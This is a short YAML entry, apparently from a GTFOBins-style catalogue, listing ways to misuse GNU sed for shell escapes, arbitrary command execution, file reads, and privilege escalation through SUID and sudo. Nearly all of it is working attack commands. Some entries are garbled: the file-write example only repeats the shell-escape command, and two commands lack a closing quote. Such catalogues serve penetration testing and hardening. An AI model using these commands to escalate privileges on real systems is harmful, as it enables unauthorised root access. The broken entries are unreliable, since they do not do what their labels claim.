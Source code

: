 ```yaml
---
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
    - description: GNU version only. The resulting shell is not a proper TTY shell.
      code: sed e
  command:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n '1e exec sh 1>&0 /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
---
```

